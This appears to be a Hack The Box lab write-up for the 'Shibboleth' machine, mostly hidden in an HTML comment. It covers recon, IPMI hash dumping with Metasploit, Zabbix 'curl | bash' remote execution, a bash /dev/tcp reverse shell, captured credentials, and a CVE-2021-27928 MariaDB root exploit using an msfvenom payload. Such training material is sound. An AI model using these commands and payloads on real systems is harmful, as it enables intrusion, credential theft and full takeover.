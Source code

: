 ```yaml
---
layout: post
title: "Shibboleth"
date: 2022-04-23
image: ../../assets/img/Posts/shibboleth.png
categories: [HTB, HTB-Medium]
tags: [metasploit, ThinVNC, CVE-2019-17662, THINVNC 1.0B1 PATH TRAVERSAL]
---
```


# Coming soon

<!-- | MACHINE         | [Shibboleth](https://app.hackthebox.com/machines/410)                                                                          |
| --------------- | ------------------------------------------------------------------------------------------------------------------------------ |
| MACHINE CREATOR | [knightmare](https://www.hackthebox.com/home/users/profile/8930) & [mrb3n](https://www.hackthebox.com/home/users/profile/2984) |
| DIFFICULTY      | Medium                                                                                                                         |
| MACHINE IP      | 10.10.11.124                                                                                                                   |

We first begin by performing an nmap scan to determine what ports are open and what services are running behind them.

```bash
➜  Shibboleth nmap -sC -sV -p- -T4 10.10.11.124
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-11 16:10 EDT
Nmap scan report for 10.10.11.124
Host is up (0.23s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://shibboleth.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: shibboleth.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 940.49 seconds
```

In this case, we only have one port running, 80 , which seems to redirect to `http://shibboleth.htb/`. So we need to add the hostname to the hosts file. After doing so, we can proceed to inspect the site.

//image missing

![image](https://user-images.githubusercontent.com/58165365/162826426-f074e857-d775-43e7-b020-28d97533ce33.png)

![image](https://user-images.githubusercontent.com/58165365/162826525-d9432e7b-f27d-4fac-ba8e-c70084860485.png)

![image](https://user-images.githubusercontent.com/58165365/162828145-1f3b7ae7-39d3-4f16-8d6f-916dfd592ecb.png)

![image](https://user-images.githubusercontent.com/58165365/162825865-9a50cf75-3013-4cc9-a424-85fb8bb24ff7.png)

```bash
➜  Shibboleth wfuzz -u http://shibboleth.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.shibboleth.htb" --hw 26 --hl 9

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shibboleth.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000099:   200        29 L     219 W      3687 Ch     "monitor"
000000346:   200        29 L     219 W      3687 Ch     "monitoring"
000000390:   200        29 L     219 W      3687 Ch     "zabbix"
```

![image](https://user-images.githubusercontent.com/58165365/162828932-8c9ca7be-395e-46d2-a545-1ababf236b53.png)

![image](https://user-images.githubusercontent.com/58165365/162829094-80bbe4b3-b2ea-46b1-b9b9-7dce86d47b83.png)

![image](https://user-images.githubusercontent.com/58165365/162829193-7e27ea6c-8284-48fb-a5b4-f206834fc5e0.png)

```bash
msf6 > search ipmi

Matching Modules
================

   #  Name                                                    Disclosure Date  Rank    Check  Description
   -  ----                                                    ---------------  ----    -----  -----------
   0  auxiliary/scanner/ipmi/ipmi_cipher_zero                 2013-06-20       normal  No     IPMI 2.0 Cipher Zero Authentication Bypass Scanner
   1  auxiliary/scanner/ipmi/ipmi_dumphashes                  2013-06-20       normal  No     IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval
   2  auxiliary/scanner/ipmi/ipmi_version                                      normal  No     IPMI Information Discovery
   3  exploit/multi/upnp/libupnp_ssdp_overflow                2013-01-29       normal  No     Portable UPnP SDK unique_service_name() Remote Code Execution
   4  auxiliary/scanner/http/smt_ipmi_cgi_scanner             2013-11-06       normal  No     Supermicro Onboard IPMI CGI Vulnerability Scanner
   5  auxiliary/scanner/http/smt_ipmi_49152_exposure          2014-06-19       normal  No     Supermicro Onboard IPMI Port 49152 Sensitive File Exposure
   6  auxiliary/scanner/http/smt_ipmi_static_cert_scanner     2013-11-06       normal  No     Supermicro Onboard IPMI Static SSL Certificate Scanner
   7  exploit/linux/http/smt_ipmi_close_window_bof            2013-11-06       good    Yes    Supermicro Onboard IPMI close_window.cgi Buffer Overflow
   8  auxiliary/scanner/http/smt_ipmi_url_redirect_traversal  2013-11-06       normal  No     Supermicro Onboard IPMI url_redirect.cgi Authenticated Directory Traversal


Interact with a module by name or index. For example info 8, use 8 or use auxiliary/scanner/http/smt_ipmi_url_redirect_traversal

msf6 > use 2
msf6 auxiliary(scanner/ipmi/ipmi_version) > options

Module options (auxiliary/scanner/ipmi/ipmi_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads

msf6 auxiliary(scanner/ipmi/ipmi_version) > setg RHOSTS shibboleth.htb
RHOSTS => shibboleth.htb
msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.10.11.124->10.10.11.124 (1 hosts)
[+] 10.10.11.124:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

```bash
msf6 > use 1
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > options

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                  Current Setting                                                    Required  Description
   ----                  ---------------                                                    --------  -----------
   CRACK_COMMON          true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                      no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                         no        Save captured password hashes in john the ripper format
   PASS_FILE             /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS                shibboleth.htb                                                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT                 623                                                                yes       The target port
   SESSION_MAX_ATTEMPTS  5                                                                  yes       Maximum number of session retries, required on certain BMCs (HP iLO 4, etc)
   SESSION_RETRY_DELAY   5                                                                  yes       Delay between session retries in seconds
   THREADS               1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE             /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line

msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:b5b40a7082090000a49188fc8d3a51f3e73bab9854a4a34bbfe133a72e35d643946d9cbba1fbe1a3a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:ddc315e4a5b763cc628d35359594696e325594d1
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

![image](https://user-images.githubusercontent.com/58165365/162931660-331f4984-6e61-4726-bac6-052ce9af0cb8.png)

# Login to dashboard

![image](https://user-images.githubusercontent.com/58165365/164891099-5a3fc611-5dbf-4219-9369-64d153048c0e.png)

![image](https://user-images.githubusercontent.com/58165365/164891140-4e175f8c-ec90-4325-941e-0b29c40d4158.png)

![image](https://user-images.githubusercontent.com/58165365/164891282-16d8196f-ebc4-4308-8c23-92a33b127989.png)

![image](https://user-images.githubusercontent.com/58165365/164891457-4cbdfc93-a682-4375-a1e1-c9c31d7415f7.png)

![image](https://user-images.githubusercontent.com/58165365/164891487-3dd870cd-d795-45d1-92dc-65708af1cc2a.png)

![image](https://user-images.githubusercontent.com/58165365/164891934-f105fe9b-6d4d-4fce-9d9a-2ea006f84d72.png)

![image](https://user-images.githubusercontent.com/58165365/164891942-14c2b76c-1a74-4fb3-860a-771878edb412.png)

![image](https://user-images.githubusercontent.com/58165365/164891956-7a8ba144-c9db-47e2-8245-adab473985aa.png)

```bash
➜  Shibboleth nc -lnvp 9999
listening on [any] 9999 ...
```

![image](https://user-images.githubusercontent.com/58165365/164892189-e7d70961-6b95-4095-859d-5ca62e222abb.png)

![image](https://user-images.githubusercontent.com/58165365/164892487-4724eb96-c756-4566-b6a6-6159288ddb3c.png)

![image](https://user-images.githubusercontent.com/58165365/164892527-0604959c-e411-4806-aff8-87239d5f9aa7.png)

---

![image](https://user-images.githubusercontent.com/58165365/164910472-9689cccd-7d86-4db9-9d43-ef68e250154c.png)

![image](https://user-images.githubusercontent.com/58165365/164910519-43edfe56-4d12-42d4-a53a-8c219dea49b0.png)

![image](https://user-images.githubusercontent.com/58165365/164913241-16d4b89a-a4c1-4552-9df3-40b6d6e37bc9.png)

`system.run[curl 10.10.16.133,nowait]`
![image](https://user-images.githubusercontent.com/58165365/164910329-1db3d8cc-ced1-4e52-a62d-9c9ded99c544.png)

```bash
➜  Shibboleth serve
Serving files from /home/kali/Desktop/Shibboleth
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

![image](https://user-images.githubusercontent.com/58165365/164910401-8c3a5ac3-96d8-492c-a3b0-7931c153f769.png)

```bash
➜  Shibboleth serve
Serving files from /home/kali/Desktop/Shibboleth
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.124 - - [23/Apr/2022 07:38:20] "GET / HTTP/1.1" 200 -
```

`system.run[curl 10.10.16.133|bash,nowait]`

Start a python server and serve index.html

```bash
➜  Shibboleth echo '/bin/bash -c "bash -i >& /dev/tcp/10.10.16.133/8888 0>&1"' > index.html
```

```bash
➜  Shibboleth nc -lnvp 8888
listening on [any] 8888 ...
connect to [10.10.16.133] from (UNKNOWN) [10.10.11.124] 33716
bash: cannot set terminal process group (903): Inappropriate ioctl for device
bash: no job control in this shell
zabbix@shibboleth:/$ id
id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
zabbix@shibboleth:/$ cat /etc/passwd | grep home
cat /etc/passwd | grep home
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
ipmi-svc:x:1000:1000:ipmi-svc,,,:/home/ipmi-svc:/bin/bash
zabbix@shibboleth:/$ su ipmi-svc
su ipmi-svc
Password: ilovepumkinpie1
id
uid=1000(ipmi-svc) gid=1000(ipmi-svc) groups=1000(ipmi-svc)
bash -i
bash: cannot set terminal process group (903): Inappropriate ioctl for device
bash: no job control in this shell
ipmi-svc@shibboleth:/$ pwd
pwd
/
ipmi-svc@shibboleth:/$ cd ~
cd ~
ipmi-svc@shibboleth:~$ ls -la
ls -la
total 36
drwxr-xr-x 4 ipmi-svc ipmi-svc 4096 Apr 22 16:15 .
drwxr-xr-x 3 root     root     4096 Oct 16  2021 ..
lrwxrwxrwx 1 ipmi-svc ipmi-svc    9 Apr 27  2021 .bash_history -> /dev/null
-rw-r--r-- 1 ipmi-svc ipmi-svc  220 Apr 24  2021 .bash_logout
-rw-r--r-- 1 ipmi-svc ipmi-svc 3771 Apr 24  2021 .bashrc
drwx------ 2 ipmi-svc ipmi-svc 4096 Apr 27  2021 .cache
drwx------ 3 ipmi-svc ipmi-svc 4096 Apr 22 16:15 .gnupg
lrwxrwxrwx 1 ipmi-svc ipmi-svc    9 Apr 28  2021 .mysql_history -> /dev/null
-rw-r--r-- 1 ipmi-svc ipmi-svc  807 Apr 24  2021 .profile
-rw-r----- 1 ipmi-svc ipmi-svc   33 Apr 22 05:29 user.txt
-rw-rw-r-- 1 ipmi-svc ipmi-svc   22 Apr 24  2021 .vimrc
ipmi-svc@shibboleth:~$ wc user.txt
wc user.txt
 1  1 33 user.txt
```

Zabbix server uses either of the following DB engines:

- IBM DB2
- MySQL
- Oracle
- PostgreSQL
- SQLite

Viewing listening ports, we find:

```bash
ipmi-svc@shibboleth:~$ netstat -antp
netstat -antp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:10050           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:10051           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -

//redacted
```

Zabbix server communicates with the Zabbix agents on ports 10050 and 10051. But we have 3306, meaning it's using mysql. We need credentials though to access the DB. Doing some [research](https://www.zabbix.com/documentation/current/en/manual/installation/install#:~:text=6-,Review%20and%20edit%20configuration%20files,-edit%20the%20Zabbix), we learn that database name, user and password are located in `zabbix_server.conf` file. In this case, we can get that in `/etc/zabbix`.

```bash
ipmi-svc@shibboleth:/var/www/html$ cd /etc/zabbix
cd /etc/zabbix
ipmi-svc@shibboleth:/etc/zabbix$ ls -la
ls -la
total 100
drwxr-xr-x  4 root     root      4096 Nov  8 11:02 .
drwxr-xr-x 96 root     root      4096 Nov  8 11:02 ..
-r--------  1 zabbix   zabbix      33 Apr 24  2021 peeesskay.psk
drwxr-xr-x  2 www-data root      4096 Apr 27  2021 web
-rw-r--r--  1 root     root     15317 May 25  2021 zabbix_agentd.conf
-rw-r--r--  1 root     root     15574 Oct 18  2021 zabbix_agentd.conf.dpkg-dist
drwxr-xr-x  2 root     root      4096 Apr 27  2021 zabbix_agentd.d
-rw-r-----  1 root     ipmi-svc 21863 Apr 24  2021 zabbix_server.conf
-rw-r-----  1 root     ipmi-svc 22306 Oct 18  2021 zabbix_server.conf.dpkg-dist
```

Catting the contents, we get the required credentials.

```bash
ipmi-svc@shibboleth:/etc/zabbix$ cat zabbix_server.conf | grep DB
cat zabbix_server.conf | grep DB
### Option: DBHost
# DBHost=localhost
### Option: DBName
# DBName=
DBName=zabbix
### Option: DBSchema
# DBSchema=
### Option: DBUser
# DBUser=
DBUser=zabbix
### Option: DBPassword
DBPassword=bloooarskybluh
//redacted
```

We can then proceed to connect to the DB as shown:

> _You need to stabilize your shell though before you attempt to connect. Otherwise, your shell will appear frozen._

```bash
zabbix@shibboleth:/tmp$ mysql -u zabbix -D zabbix -p
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 2019
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [zabbix]>
```

From the banner, we can see MariaDB's server version. Doing some research, we find that the version is vulnerable to CVE-2021-27928, Command execution vulnerability. Affected versions include:

- 10.2 before 10.2.37
- 10.3 before 10.3.28
- 10.4 before 10.4.18
- 10.5 before 10.5.9

![image](https://user-images.githubusercontent.com/58165365/164914574-9e2924e9-4279-45d1-b0d2-cdbcf6570c2c.png)

So i decided to test the first exploit on the search by [Al1ex/CVE-2021-27928](https://github.com/Al1ex/CVE-2021-27928)

You first need to create a reverse shell payload using msfvenom:

```bash
➜  msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.133 LPORT=9999 -f elf-so -o root.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: root.so
```

Serve the payload and download it to the target machine

```bash
zabbix@shibboleth:/$ cd /tmp/
zabbix@shibboleth:/tmp$ wget http://10.10.16.133/root.so
--2022-04-23 15:27:29--  http://10.10.16.133/root.so
Connecting to 10.10.16.133:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 476 [application/octet-stream]
Saving to: ‘root.so’

root.so             100%[===================>]     476  --.-KB/s    in 0s

2022-04-23 15:27:30 (85.0 MB/s) - ‘root.so’ saved [476/476]
```

Start a nc listener in your local machine:

```bash
➜  Shibboleth nc -lnvp 9999
listening on [any] 9999 ...

```

Execute the payload in the mysql shell as shown below

```bash
MariaDB [zabbix]> SET GLOBAL wsrep_provider="/tmp/root.so";
ERROR 2013 (HY000): Lost connection to MySQL server during query
MariaDB [zabbix]>
```

And we now have a shell as root. You can easily get the root flag in `/root` directory.

```bash
➜  nc -lnvp 9999
listening on [any] 9999 ...
connect to [10.10.16.133] from (UNKNOWN) [10.10.11.124] 35846

id
uid=0(root) gid=0(root) groups=0(root)
bash -i
bash: cannot set terminal process group (852): Inappropriate ioctl for device
bash: no job control in this shell
root@shibboleth:/var/lib/mysql# cd /root
root@shibboleth:/root# ls -la
total 36
drwx------  5 root root 4096 Nov  8 12:58 .
drwxr-xr-x 19 root root 4096 Oct 16  2021 ..
lrwxrwxrwx  1 root root    9 Apr 27  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3115 May 25  2021 .bashrc
drwx------  2 root root 4096 May 12  2021 .cache
drwx------  4 root root 4096 Oct 21  2021 .config
lrwxrwxrwx  1 root root    9 Apr 28  2021 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root   22 Apr 24  2021 .vimrc
-r--------  1 root root   33 Apr 22 05:29 root.txt
drwx------  2 root root 4096 Oct 18  2021 scripts
root@shibboleth:/root# wc root.txt
 1  1 33 root.txt
```

https://book.hacktricks.xyz/pentesting/623-udp-ipmi

https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/

file:///tmp/Shibboleth.pdf

https://github.com/c0rnf13ld/ipmiPwner

https://0xdf.gitlab.io/2022/04/02/htb-shibboleth.html -->
